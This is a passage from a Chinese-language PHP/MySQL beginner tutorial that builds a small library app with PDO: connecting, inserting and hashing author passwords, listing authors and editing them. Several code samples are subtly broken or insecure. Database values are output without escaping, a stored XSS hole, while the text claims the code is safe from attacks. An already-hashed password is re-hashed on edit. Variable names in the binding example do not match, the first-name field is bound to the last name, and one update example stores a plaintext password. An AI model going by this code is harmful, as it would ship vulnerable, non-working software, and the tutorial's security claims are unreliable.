接下来，我们创建一个名为 `library` 的数据库及其相关表：

此时，数据库包含三张表：

*   **`books` 表**：`book_id`、`title`、`description`、`year_published`、`author_id`、`category_id`
*   **`authors` 表**：`author_id`、`last_name`、`first_name`、`email`、`password`、`biography`
*   **`categories` 表**：`category_id`、`category_name`

每张表都有一个唯一的主键：`books` 表为 `book_id`，`authors` 表为 `author_id`，`categories` 表为 `category_id`。

此外，在 `books` 表中，`author_id` 和 `category_id` 列作为外键，分别引用 `authors` 和 `categories` 表的主键。这种结构使得在各表之间建立关系成为可能。例如，每本书都关联一个特定的作者和一个特定的类别，从而可以根据这些关系轻松地组织和检索数据。


要为该应用程序创建数据库，请在启动 XAMPP 后通过以下 URL 访问 phpMyAdmin：`http://localhost/phpmyadmin/`。接下来，创建一个新数据库，我们将其命名为 `library`。


接下来，创建三张表 `authors`、`books` 和 `categories`。下图展示了 `authors` 表的创建过程。请注意，`author_id` 属性是作者标识符，类型为 `INT` (整数) 且将自动递增。为此，请勾选 `AI` (Auto-incremented，自动递增) 列中的复选框。`last_name`、`first_name`、`email` 和 `password` 属性的类型为 `VARCHAR` (字符串)。`biography` 属性的类型为 `text`，以允许最多 65565 个字符。

按照相同的过程，接着创建另外两张表 `books` 和 `categories`。


###### 连接到 "library" 数据库

在 `library` 项目目录中，创建一个名为 `index.php` 的新文件。在该文件中，插入以下代码以测试与 `library` 数据库的连接。

```php
<?php

// 数据库连接信息
$host = 'localhost';
$dbname = 'library';
$username = 'root';
$password = '';

try {
    // 创建 PDO 类的实例以建立连接
    $connection = new PDO("mysql:host=$host;dbname=$dbname", $username, $password);

    // 设置 PDO 在发生错误时生成异常
    $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    echo "数据库连接成功建立";
} catch (PDOException $e) {
    // 连接错误处理
    echo "连接错误: " . $e->getMessage();
}
?>
```

在本例中：

*   变量 `$host`、`$dbname`、`$username` 和 `$password` 包含连接到 MySQL 数据库所需的信息。
*   由于 `library` 应用程序是在本地开发的，`$host` 的值为 `localhost`，`$username` 的值为 `root`。`$dbname` 变量代表数据库名称，在本例中为 `library`。`$password` 变量为空，因为未为 `library` 数据库定义密码。
*   然后，我们使用 `new` 关键字实例化一个 `PDO` 对象，并使用这些连接信息，我们将在 PHP 面向对象编程部分更详细地解释该关键字。
*   我们使用语法 `mysql:host=$host;dbname=$dbname` 来指定数据库类型 (MySQL)、主机 (服务器) 和数据库名称。
*   方法 `setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION)` 用于设置 PDO 的错误处理模式。以下是该指令各部分的含义：
    *   `PDO::ATTR_ERRMODE` 是一个常量，指示我们正在配置的属性类型。在本例中，我们配置的是错误处理模式。
    *   `PDO::ERRMODE_EXCEPTION` 是一个常量，将错误处理模式定义为基于异常。这意味着如果在执行 SQL 查询时发生错误，`PDO` 将自动抛出一个 `PDOException`。


通过使用此错误处理模式，与 SQL 查询执行相关的错误将自动转换为 `PDOException` 异常，从而使得在代码中使用 `try-catch` 块进行处理变得更加容易。这使得错误处理更加明确和高效。

最后，我们显示一条消息，指示数据库连接已成功建立，或者在发生连接问题时显示错误消息。

如果您通过执行 `index.php` 脚本来测试此代码，并且连接成功，您将获得以下结果：


但是，如果数据库连接信息中发生错误，您将收到类似于以下结果的消息：


#### 结论

本章让我们详细了解了使用 PHP 连接 MySQL 数据库的过程。我们深入探讨了 `PDO` 对象方法。我们学习了如何有效地配置和处理连接错误。我们还探讨了数据库设计中主键和外键的概念，以及在 phpMyAdmin 中创建数据库和表的实际步骤。最后，我们查看了一个数据库连接和错误处理的具体示例。本章是理解 PHP Web 开发背景下 MySQL 数据库管理的第一步。在后续章节中，我们将研究用于数据库管理的 SQL 查询。

### 第 11 章：从数据库插入、检索和显示数据

在本章中，我们将介绍使用 PHP 和 `PDO` 扩展从 MySQL 数据库插入、检索和显示数据所涉及的各个步骤。我们将探讨用于插入新数据的 SQL 查询，以及用于执行这些查询并在 Web 应用程序中高效显示结果的 `PDO` 方法。

我们将探讨用于执行 SQL 插入查询并将新数据插入数据库的 `PDO` 方法。这将包括使用带参数的预处理 SQL 查询以及使用 `execute()` 执行查询。

我们将讨论从数据库检索已插入数据并在 Web 应用程序中显示它的各种技术。这还将包括使用循环遍历结果记录并以 HTML 表格及其他展示格式显示数据。

本章将通过开发一个迷你图书馆项目来讲解，并将为您提供关于如何在 PHP Web 应用程序中使用 `PDO` 扩展插入、检索和显示 MySQL 数据库数据的实用且深入的理解，同时专注于安全性和良好的开发实践。

#### 使用 SQL 进行数据插入

为了演示将数据插入 MySQL 数据库的过程，我们将为“library”（图书馆）数据库中的“authors”（作者）表创建一个美观的插入表单。第一步是在 `index.php` 文件中创建插入表单，我们将使用 CSS 代码来美化表单。我假设您了解 CSS 基础知识，如果不了解，我建议您参阅我的书籍“HTML & CSS: from Beginner to Expert”（HTML 与 CSS：从入门到精通）。

##### 插入表单 (index.php)

```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Author Inscription</title>
<link rel="stylesheet" href="style.css">
</head>
<body>
 <form action="author_registration.php" method="POST">
 <h2>Author registration</h2>
 <input type="text" name="lastname" placeholder="Last Name"><br>
 <input type="text" name="firstname" placeholder="First Name"><br>
 <input type="email" name="email" placeholder="Email"><br>
 <input type="password" name="password" placeholder="Password"><br>
 <textarea name="biography" placeholder="biography"></textarea><br>
 <input type="submit" value="Save">
 </form>
</body>
</html>
```

此 HTML 代码创建了一个作者注册表单，包含姓氏、名氏、电子邮件和密码字段。提交表单时，数据通过 `POST` 方法发送到 `author_registration.php` 文件页面。表单使用外部样式表 `style.css` 进行美化，代码行如下：

```
<link rel="stylesheet" href="style.css">
```

##### CSS 样式表

接下来，我们创建一个新的 `style.css` 文件，并在其中放入以下代码以美化表单：

```
body {
 font-family: Arial, sans-serif;
 background-color: #f4f4f4;
 margin: 0;
 padding: 0;
 display: flex;
 justify-content: center;
 align-items: center;
 height: 100vh;
}
form {
 background-color: #fff;
 padding: 20px;
 border-radius: 8px;
 box-shadow: 0px 2px 5px rgba(0, 0, 0, 0.1);
 width: 400px;
 margin: auto; /* Ajout de cette ligne */
}
input {
 width: calc(100% - 20px);
 padding: 10px;
 border: 1px solid #ccc;
 border-radius: 4px;
 margin-bottom: 15px;
}
textarea {
 width: calc(100% - 20px);
 padding: 10px;
 border: 1px solid #ccc;
 border-radius: 4px;
 margin-bottom: 15px;
}
input[type="submit"] {
 background-color: #007bff;
 color: #fff;
 border: none;
 padding: 10px 20px;
 cursor: pointer;
 border-radius: 4px;
 display: block;
 margin: 0 auto;
}
input[type="submit"]:hover {
 background-color: #0056b3;
}
```

表单的 `action` 属性指向一个名为 `author_registration.php` 的文件路径，该文件负责检索表单提交的数据并将其插入 `library` 数据库的 `authors` 表中。让我们在 `library` 项目的根目录下创建此文件。

运行 `index.php` 将显示以下表单：


##### 数据处理与插入

###### author_registration.php

```
<?php
 // Retrieve form data
 $lastname = $_POST['lastname'];
 $firstname = $_POST['firstname'];
 $email = $_POST['email'];
 $password = $_POST['password'];
 $biography = $_POST['biography'];
 // Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root","");
 $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
 // Prepare insertion request
 $request = $connection->prepare("INSERT INTO authors (last_name, first_name, email, password, biography) VALUES (:lastname, :firstname, :email, :password, :biography)");
 // Bind values to query parameters
 $request->bindParam(':lastname', $lastname);
 $request->bindParam(':firstname', $firstname);
 $request->bindParam(':email', $email);
 $request->bindParam(':password', $password);
 $request->bindParam(':biography', $biography);
 // Execute query
 $result = $request->execute();
 // Verify successful insertion
 if ($result) {
 echo "Author is registered successfully!";
 } else {
 echo "Error registered author.";
 }
?>
```

此 PHP 代码首先通过 `POST` 方法检索从前一个 HTML 表单传输的数据。接下来，使用提供的凭据（主机名、数据库名、用户名和密码）通过 `PDO` 对象建立与 MySQL 数据库的连接。

接下来，使用 `INSERT INTO` 语句准备一个插入 SQL 查询，以向 `authors` 表添加新行。`lastname`、`firstname`、`email` 和 `password` 字段的值使用 `bindParam()` 方法绑定到查询参数。

值绑定到参数后，使用 `execute()` 方法执行查询，并将执行结果存储在 `$result` 变量中。

最后，代码通过验证 `$result` 的值来检查插入是否成功。如果为真，则显示一条消息，指示作者已成功注册。否则，显示一条错误消息，指示注册作者时出现问题。

详细解释：


### PHP 数据库操作：插入与查询作者信息

#### 插入作者数据

```php
$query = $connection->prepare("INSERT INTO authors (last_name, first_name, email, password, biography) VALUES (:lastname, :firstname, :email, :password, :biography)");
```

这行代码准备一条稍后在数据库中执行的插入 SQL 查询。详细解释如下：

*   **`$connection->prepare()`**：这是 PDO 对象的方法，用于准备供执行的 SQL 查询。它返回一个代表准备好查询的 `PDOStatement` 对象。
*   **`"INSERT INTO authors (last_name, first_name, email, password, biography) VALUES (:lastname, :firstname, :email, :password, :biography)"`**：这是准备好的插入 SQL 查询。它指示数据库在 "authors" 表中插入新行，为 "last_name"、"first_name"、"email"、"password" 和 "biography" 列提供值。列值由命名参数标记（`:lastname`、`:firstname`、`:email`、`:password`、`:biography`）表示，这些标记将在查询运行时链接到提供的值。

查询结构如下：

*   `INSERT INTO authors`：表示向 "authors" 表发起插入请求。
*   `(last_name, first_name, email, password, biography)`：指定将添加值的列名。
*   `VALUES (:lastname, :firstname, :email, :password, :biography)`：表示要插入对应列的值。使用名为 `:lastname`、`:firstname`、`:email`、`:password` 和 `:biography` 的命名参数标记来代表这些值。

通过使用命名参数标记，准备好的查询可防止 SQL 注入攻击，并允许将 SQL 逻辑与要插入的数据值逻辑分离。

简而言之，这行代码准备了一条带有命名参数的插入查询，用于向 "authors" 表指定列中插入值。

##### 绑定参数

以下五行使用 `bindParam()` 方法的代码，将准备查询中命名参数标记的值绑定到指定的 PHP 变量：

```php
$query->bindParam(':lastname', $lastname);
$requete->bindParam(':firstname', $firstname);
$request->bindParam(':email', $email);
$request->bindParam(':password', $password);
$requete->bindParam(':biography', $biography);
```

*   `$query->bindParam(':lastname', $lastname)`：将 PHP 变量 `$lastname` 的值绑定到准备查询中名为 `:lastname` 的参数标记。
*   `$requete->bindParam(':firstname', $firstname)`：同理，将 `$firstname` 绑定到 `:firstname`。
*   `$request->bindParam(':email', $email)`：将 `$email` 绑定到 `:email`。
*   `$request->bindParam(':password', $password)`：将 `$password` 绑定到 `:password`。
*   `$requete->bindParam(':biography', $biography)`：将 `$biography` 绑定到 `:biography`。

通过将 PHP 变量值链接到命名参数标记，这些行代码准备使用 "authors" 表每列的指定值来执行查询。这使得用户提供的数据能以安全受控的方式插入数据库。

##### 执行查询

代码行：`$result = $request->execute();` 执行先前使用 PDO 对象的 `prepare()` 方法准备好的查询。

*   **`$result = $requete->execute();`**：此指令在代表准备查询的 `PDOStatement` 对象 `$request` 上调用 `execute()` 方法。该方法使用绑定到参数标记的值（如前通过 `bindParam()` 定义）执行准备好的 SQL 查询。若查询成功执行则返回 `true`，否则返回 `false`。返回值赋给变量 `$result`，可用于检查查询是否成功。

此时，在你的 `index.php` 页面提交并验证表单且未产生任何错误后，你将收到 "Author is registered successfully!" 消息。随后访问 `http://localhost/phpmyadmin/` 并查看 "library" 数据库中的 "authors" 表，应能看到作者 "Dupont Alice" 的记录，其标识符为 1。


> **注意**：密码以未加密形式存储在数据库中，存在潜在安全风险。若恶意人员访问数据库，将获取此敏感信息，危及应用用户安全。密码应始终安全存储，例如使用哈希技术使其即使在数据库被未授权访问时也不可读。解决此问题的常见方案之一是在插入数据库前对密码进行哈希处理。

##### 密码哈希处理

修改文件 `author_registration.php`，在数据库连接代码前添加以下行：

```php
// Password hash
$password_hash = password_hash($password, PASSWORD_DEFAULT);
```

此行代码使用 **`password_hash()`** 函数对从表单获取的密码进行哈希。该函数接受两个参数：要哈希的密码和使用的哈希算法。

*   `$password`：包含从表单获取的原始密码的变量。
*   `$password_hash`：将包含密码哈希结果的变量。该结果是由哈希算法生成的安全唯一字符串。
*   `PASSWORD_DEFAULT`：PHP 提供的常量，代表 `password_hash()` 函数推荐的默认哈希算法。此常量可随 PHP 版本更新以使用最安全的可用哈希算法。

接着，将行 `$request->bindParam(':password', $password);` 替换为以下代码：

```php
// Use hashed password
$request->bindParam(':password', $password_hash);
```

若你在 `index.php` 页面填写表单注册新作者且一切顺利，将看到 "Author added successfully!" 消息。检查数据库中的 authors 表，应观察到如下所示的注册数据：


特别注意 ID = 2 的作者的 password 列。该值为一长串字符串，表明密码在存储前已哈希处理，从而增强了数据安全性。你可以继续注册其他作者。

#### 选择并显示数据库数据

本节介绍如何使用 PHP 和 MySQL 从数据库选择并显示数据。我们将首先编写代码选择数据库中 "authors" 表的所有作者，然后了解如何在 HTML 表格中显示这些数据。

在 "library" 项目目录中创建名为 `display_authors.php` 的新文件。以下是选择作者的代码：

```php
<?php

// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Prepare author selection query
$query = $connection->prepare("SELECT * FROM authors");

// Execute query
$query->execute();

// Retrieve results as associative array
$authors = $query->fetchAll(PDO::FETCH_ASSOC);

?>
```

*   `$query = $connection->prepare("SELECT * FROM authors");`：准备一条 SQL 查询，选择 "authors" 表中的所有列（`*`）。
*   `$authors = $query->fetchAll(PDO::FETCH_ASSOC);`：以关联数组形式检索所有查询结果，并存储在变量 `$authors` 中。


#### 摘要

在第一步中，连接到数据库后，代码执行一条 SQL 查询以选择所有作者，检索结果，并将它们存储在关联数组 `$authors` 中。

现在我们可以继续在 HTML 表格中显示这些作者了。

请按如下方式修改文件 `display_authors.php`：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>作者列表</title>
</head>
<body>
    <h2>作者列表</h2>
    <?php
    // 第 1 部分 - 选择并检索所有作者
    $connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
    $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $query = $connection->prepare("SELECT * FROM authors");
    $query->execute();
    $authors = $query->fetchAll(PDO::FETCH_ASSOC);

    // 第 2 部分 - 在 HTML 表格中显示结果
    if (count($authors) > 0) {
        echo "<table>";
        echo "<tr>
            <th>ID</th>
            <th>姓氏</th>
            <th>名字</th>
            <th>邮箱</th>
            <th>传记</th>
        </tr>";
        foreach ($authors as $author) {
            echo "<tr>";
            echo "<td>{$author['author_id']}</td>";
            echo "<td>{$author['last_name']}</td>";
            echo "<td>{$author['first_name']}</td>";
            echo "<td>{$author['email']}</td>";
            echo "<td>{$author['biography']}</td>";
            echo "</tr>";
        }
        echo "</table>";
    } else {
        echo "未找到作者。";
    }
    ?>
</body>
</html>
```

这段代码的第 2 部分首先通过检查从 `$authors` 变量检索到的作者数量是否大于零（即 `if (count($authors) > 0)` 条件）来判断数据库中是否有作者。如果找到作者，代码将生成一个 HTML 表格来显示每位作者的详细信息。否则，如果未找到作者，则显示消息“未找到作者。”

在 `foreach` 循环中，会遍历 `$authors` 数组中的每位作者。对于每位作者，代码生成一个新的表格行，包含作者 ID（`$author['author_id']`）、姓氏（`$author['last_name']`）、名字（`$author['first_name']`）、邮箱（`$author['email']`）和传记（`$author['biography']`）等详细信息。这些详细信息显示在表格单元格（`<td>`）中，每位作者占据一个新的表格行（`<tr>`）。

运行 `display_authors.php` 将产生类似以下的结果：


为了美化该表格的外观，可以考虑应用 CSS 样式。首先创建一个 `style_tab.css` 文件，步骤与上一章类似。接下来，在 `display_authors.php` 文件的头部（`head`）中引用该文件，添加以下代码行：

```html
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>作者列表</title>
    <link rel="stylesheet" href="style_tab.css">
</head>
```

然后，您可以添加以下 CSS 样式来自定义表格的外观：

```css
table {
    width: 100%;
    border-collapse: collapse;
}

th, td {
    border: 1px solid #ddd;
    padding: 8px;
    text-align: left;
}

th {
    background-color: #f2f2f2;
}
```

在该代码中，我们包含：

*   **Table（表格）**：此规则定义文档中所有表格的基本样式。
    *   `width: 100%;` 表示表格的宽度应适应其容器的宽度。
    *   `border-collapse: collapse;` 指定表格单元格的边框应合并为单一边框。
*   **th, td**：此规则定义表格中表头单元格（`th`）和数据单元格（`td`）的样式。
    *   `border: 1px solid #ddd;` 在每个单元格周围创建 1 像素的浅灰色实线边框。
    *   `padding: 8px;` 为每个单元格添加 8 像素的内边距以提高可读性。
    *   `text-align: left;` 将每个单元格中的文本内容左对齐。
*   **th**：此规则定义表格中表头单元格（`th`）的特定样式。
    *   `background-color: #f2f2f2;` 为表头单元格设置浅灰色背景色，以便在视觉上将其与数据单元格区分开来。

现在，如果您运行文件 `display_authors.php`，将获得类似以下的结果：


#### 结论

在本章中，我们探讨了使用 PHP 和 MySQL 插入、检索和显示数据库数据的过程。我们学习了如何建立到数据库的安全连接、将数据插入表中、使用 SQL 查询检索这些数据，最后在 Web 应用程序中以结构化方式显示这些数据。

通过使用 PDO 的特性，我们能够安全高效地管理操作，防止潜在的攻击，如 SQL 注入。此外，我们还探讨了在将密码存储到数据库之前对其进行哈希处理以提高安全性的技术。

最后，通过应用 CSS 样式，我们能够在格式良好的表格中展示检索到的数据，提供最佳的用户体验。

本章为理解 Web 应用程序中数据操作的基础知识提供了坚实的基础，为更高级的功能（如数据更新和删除）铺平了道路，我们将在下一章中介绍这些内容。

### 第 12 章：在数据库中更新和删除数据

在数据库中更新和删除数据是维护存储信息的完整性和相关性的关键操作。在本章中，我们将详细探讨如何使用 PHP 和 MySQL 执行这些操作。

我们将介绍更新表中现有记录的技术，以及安全删除数据的方法。我们还将研究良好的安全实践，以避免错误并在执行这些关键操作时保护敏感数据。

通过将本章获得的知识与前几章关于数据插入、检索和显示的知识相结合，您将能够创建健壮、功能完善的应用程序，充分发挥关系型数据库的潜力。

#### 在数据库中更新数据

在本节中，我们将探讨在数据库中更新数据。更新是修改表中现有值的过程。无论是为了纠正错误、更新信息还是监控数据演变，执行更新的能力在 Web 应用程序开发中至关重要。

我们将探讨使用 PHP 在 MySQL 数据库中更新数据所涉及的各个步骤。这包括准备更新请求、执行这些请求以及检查操作是否成功。

为了演示更新操作，我们将继续开发我们的“图书馆”迷你项目。我们将为您提供详细说明，指导您如何安全高效地更新您自己的项目。

##### 更新流程

通常，要更新表中的数据，您需要遵循以下步骤：

1.  **识别要更新的记录**：您必须首先确定要更新的表记录。这可以通过检索该记录的标识符来完成，例如在我们的示例中是作者 ID。
2.  **检索新数据**：获取您想要为此记录更新的新数据。
3.  **数据库连接**：使用 PDO 建立数据库连接以运行 SQL 查询。
4.  **准备并执行更新请求**：使用 PDO 的 `prepare()` 方法准备更新 SQL 查询。使用 `execute()` 方法执行请求。
5.  **绑定值**：使用 `bindParam()` 方法将替换值绑定到查询参数。
6.  **检查更新是否成功**：检查查询执行的结果，以确认更新是否成功。
7.  **显示确认消息**：显示适当的消息，告知用户更新操作的结果。

以下是一个 PHP 代码示例，您可以将其放在一个名为 `edit_author.php` 的新文件中：

```php
<?php
$author_id = 1; // 要更新的作者 ID 示例

// 新作者信息
$new_lastname = "New Last Name";
$new_firstname = "New First Name";
$new_email = "newaddress@example.com";
```


### 更新作者信息

#### PHP 更新单个作者信息示例

```php
$new_password = "new_password";
$new_biography = "New biography";

// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Update request
$request = $connection->prepare("UPDATE authors SET
    last_name = :new_lastname,
    first_name = :new_firstname,
    email = :new_email,
    password = :new_password,
    biography = :new_biography
    WHERE author_id = :author_id");

// Bind parameters
$request->bindParam(':new_lastname', $new_lastname);
$request->bindParam(':new_firstname', $new_firstname);
$request->bindParam(':new_email', $new_email);
$request->bindParam(':new_password', $new_password);
$request->bindParam(':new_biography', $new_biography);
$request->bindParam(':author_id', $author_id);

// Execute query
$result = $request->execute();

// Verify successful update
if ($result) {
    echo "Information updated successfully";
} else {
    echo "An error occurred during the update";
}
?>
```

这段 PHP 代码演示了在 `authors` 表中更新 `author_id = 1` 的单个作者信息的过程。在此操作中，作者的新姓氏、名字、邮箱、密码和传记值预先定义。然后使用 PDO 建立数据库连接。使用 PDO 对象的 `prepare()` 方法准备更新 SQL 查询，其中使用 `UPDATE ... SET` 语句指定要更新的列和新值。然后使用 `bindParam()` 方法将新作者信息的值和要更新的作者 ID 绑定到查询参数。最后，使用 PDO 对象的 `execute()` 方法执行更新请求。

如果执行此代码，通常会收到以下消息：


当查询 `authors` 表中的数据时，将看到 ID 为 1 的作者信息已被修改：


您可能注意到在之前的代码中，作者 ID 和新数据是静态定义的。然而在实践中，动态检索它们至关重要。

这可以通过多种方式实现：例如，设置一个表单让用户输入相关作者的标识符，然后检索它。另一种选择是在显示所有作者的表格的每一行前添加一个链接，从而传输相应的作者 ID。我们将在后续内容中开发这种方法。

新数据可以通过表单管理。这将首先显示要更新的旧数据，然后允许用户输入新信息。

#### 更新所有作者的公告板

在上一章中，我们开发了在表格中显示所有作者数据的过程。在本节中，我们将通过向表格的每一行添加链接来增强此过程。此链接将作者的标识符传递给名为 `form_edit_author.php` 的脚本，该脚本将检索与此标识符对应的作者数据，并将这些数据显示在允许输入新信息的表单中。

在文件 `display_authors.php` 中，我们进行两项主要更改：

1.  我们向显示表添加一个标题为 "Edit" 的列：`<th>Edit</th>`。
2.  然后我们向每个表格单元格添加 "Edit" 链接：

```php
echo "<td><a href='form_edit_author.php?id={$author['author_id']}'>Edit</a></td>";
```

以下是 `display_authors.php` 文件的修改版本：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>List of Authors</title>
    <link rel="stylesheet" href="style_tab.css">
</head>
<body>
    <h2>List of Authors</h2>
    <?php
    // Part1 - select and retrieve all authors
    $connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
    $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $query = $connection->prepare("SELECT * FROM authors");
    $query->execute();
    $authors = $query->fetchAll(PDO::FETCH_ASSOC);

    // Part 2 - Displaying results in an HTML table
    if (count($authors) > 0) {
        echo "<table>";
        echo "<tr>
            <th>Edit</th>
            <th>ID</th>
            <th>Last Name</th>
            <th>First Name</th>
            <th>Email</th>
            <th>Biography</th>
        </tr>";
        foreach ($authors as $author) {
            echo "<tr>";
            echo "<td>{$author['author_id']}</td>";
            echo "<td>{$author['last_name']}</td>";
            echo "<td>{$author['first_name']}</td>";
            echo "<td>{$author['email']}</td>";
            echo "<td>{$author['biography']}</td>";
            echo "<td><a href='form_edit_author.php?author_id={$author['author_id']}'>Edit</a></td>";
            echo "</tr>";
        }
        echo "</table>";
    } else {
        echo "No author found.";
    }
    ?>
</body>
</html>
```

这些修改向作者显示表添加了一个 "Edit" 列，其中每一行包含一个指向名为 `form_edit_author.php` 的脚本的 "Edit" 链接，并将相应的作者 ID 作为参数传递。

执行此代码产生的结果类似于以下内容：


然后创建一个名为 `form_edit_author.php` 的新空脚本。

当您点击 "Edit" 链接时，将被重定向到此文件 `form_edit_author.php`，并通过 URL 传输相应的作者 ID。


#### 在表单中检索和显示数据

在我们之前创建的 `form_edit_author.php` 文件中，我们使用 `$_GET` 超全局变量从 URL 中检索要更新的作者 ID。然后，我们查询数据库以将相关作者的所有数据检索到一个关联数组中。

##### 从数据库检索数据

```php
<?php
// Retrieve the author ID to be updated
$author_id = $_GET['author_id'];

// Connect to database
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
$connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Prepare selection query
$query = $connection->prepare("SELECT * FROM authors WHERE author_id = :author_id");
$query->bindParam(':author_id', $author_id);

// Execute request
$query->execute();

// Retrieve results
$author = $query->fetch(PDO::FETCH_ASSOC);
```

这段 PHP 代码用于从数据库检索特定作者的信息并在修改表单中显示。以下是代码的详细解释：

- **`$_GET['author_id']`**：此行检索 URL 中传输的作者标识符，可通过 `$_GET` 超全局变量访问。
- **`fetch(PDO::FETCH_ASSOC)`** 方法用于以关联数组的形式检索查询结果的第一行。此数组包含从数据库检索的作者数据。

##### 将检索到的数据保存到变量中

然后，如果存在与 URL 中传递的标识符对应的作者，将关联数组 `$author` 中存储的数据保存到变量中，以便于在表单中使用。

```php
// Check if author exists
if ($author) {
    // Retrieve author information
    $lastname = $author['last_name'];
    $firstname = $author['first_name'];
    $email = $author['email'];
    $password = $author['password'];
    $biography = $author['biography'];
}
```

此代码段用于提取从数据库检索的作者信息并将其存储在单独的变量中，以便稍后在修改表单中使用。例如：`$lastname = $author['last_name'];` 这一行从关联数组 `$author` 中提取 "last_name" 列的值并将其存储在变量 `$lastname` 中。这意味着变量 `$lastname` 现在包含从数据库检索的作者姓氏。

##### 在表单中显示数据


### 编辑作者信息

完成此操作后，我们会在一个类似于上一章注册新作者所用的表单中显示这些数据。

```html
<form action="modify_author.php" method="POST">
  <h2>Edit an Author</h2>
  <label>Last Name:</label>
  <input type="text" name="lastname" value="<?= $lastname ?>"><br>
  <label>Firstname:</label>
  <input type="text" name="firstname" value="<?= $firstname ?>"><br>
  <label>Email:</label>
  <input type="email" name="email" value="<?= $email ?>"><br>
  <label>Password:</label>
  <input type="password" name="password" value="<?= $password ?>"><br>
  <label>Biography:</label>
  <textarea name="biography"><?= $biography ?></textarea><br>
  <input type="hidden" name="author_id" value="<?= $author_id ?>">
  <input type="submit" value="Edit">
</form>
```

这段 HTML 代码代表一个用于修改数据库中作者信息的表单。以下是详细说明：

`<form>` 标签的 `action` 属性指定了处理表单数据的 PHP 脚本的 URL。在本例中，它是 `modify_author.php`，使用的 HTTP 方法是 `POST`。

在 `<form>` 标签内部，使用 `<h2>` 标题来表明该表单用于修改作者信息。

接下来，一系列 `<input>` 字段和一个 `<textarea>` 字段用于输入作者的新信息。每个字段都有一个 `name` 属性，对应表单提交时 `$_POST` 数组中的字段名。

当前字段值通过 PHP 定义，使用 `<?= ?>` 标签显示包含作者当前数据的 PHP 变量。例如：`value="<?= $lastname ?>` 将变量 `$lastname` 的值设置在表单的 `lastname` 字段中。

密码字段使用 `type="password"`，出于安全原因会隐藏输入的字符。

一个类型为 `hidden` 的 `<input>` 字段用于存储作者 ID，但对用户不可见。这使得作者 ID 可以在无需用户输入的情况下传递给处理脚本。

最后，一个 `submit` 按钮用于提交表单并将数据发送给 PHP 脚本进行处理。

该表单允许用户修改作者信息并提交以更新数据库。

#### 完整脚本：`form_edit_author.php`

以下是脚本 `form_edit_author.php` 的完整代码：

```html
<!DOCTYPE html>
<html lang="fr">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Edit Author</title>
  <link rel="stylesheet" href="style.css">
</head>
<body>
  <?php
  // Retrieve the author ID to be updated
  $author_id = $_GET['author_id'];

  // Connect to database
  $connection = new PDO("mysql:host=localhost;dbname=library", "root", "");
  $connection->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

  // Prepare selection query
  $query = $connection->prepare("SELECT * FROM authors WHERE author_id = :author_id");
  $query->bindParam(':author_id', $author_id);

  // Execute request
  $query->execute();

  // Retrieve results
  $author = $query->fetch(PDO::FETCH_ASSOC);

  // Check if author exists
  if ($author) {
    // Retrieve author information
    $lastname = $author['last_name'];
    $firstname = $author['first_name'];
    $email = $author['email'];
    $password = $author['password'];
    $biography = $author['biography'];
  }
  ?>

  <form action="modify_author.php" method="POST">
    <h2>Edit an Author</h2>
    <label>Last Name:</label>
    <input type="text" name="lastname" value="<?= $lastname ?>"><br>
    <label>Firstname:</label>
    <input type="text" name="firstname" value="<?= $firstname ?>"><br>
    <label>Email:</label>
    <input type="email" name="email" value="<?= $email ?>"><br>
    <label>Password:</label>
    <input type="password" name="password" value="<?= $password ?>"><br>
    <label>Biography:</label>
    <textarea name="biography"><?= $biography ?></textarea><br>
    <input type="hidden" name="author_id" value="<?= $author_id ?>">
    <input type="submit" value="Edit">
  </form>
</body>
</html>
```

此时，如果您在显示所有作者的表格中选择“编辑”列中的任意链接，将会被重定向到类似下图所示的页面：


除了展示检索到的数据外，该表单还提供了在提交前进行修改的可能性。表单验证后，会被定向到 `modify_author.php` 脚本，该脚本负责使用表单中输入的信息更新数据库中的数据。以下是更新后的 `modify_author.php` 脚本代码：

```php
<?php
$author_id = $_POST['author_id']; // Author ID to be updated

// New author information
$new_lastname = $_POST['lastname'];
$new_firstname = $_POST['firstname'];
$new_email = $_POST['email'];
$new_password = $_POST['password'];
$new_biography = $_POST['biography'];

// Hash password
$password_hashed = password_hash($new_password, PASSWORD_DEFAULT);

// Database connection
$connection = new PDO("mysql:host=localhost;dbname=library", "root", "");

// Update request
$request = $connection->prepare("UPDATE authors SET last_name = :new_lastname, first_name = :new_firstname, email = :new_email, password = :new_password, biography = :new_biography WHERE author_id = :author_id");

// Bind parameters
$request->bindParam(':author_id', $author_id);
$request->bindParam(':new_lastname', $new_lastname);
$request->bindParam(':new_firstname', $new_lastname); // Note: Potential bug in source, binding $new_lastname instead of $new_firstname
$request->bindParam(':new_email', $new_email);
$request->bindParam(':new_password', $password_hashed);
$request->bindParam(':new_biography', $new_biography);

// Execute query
$result = $request->execute();

// Check update success
if ($result) {
  echo "Information updated successfully";
} else {
  echo "An error occurred during the update.";
}
?>
```

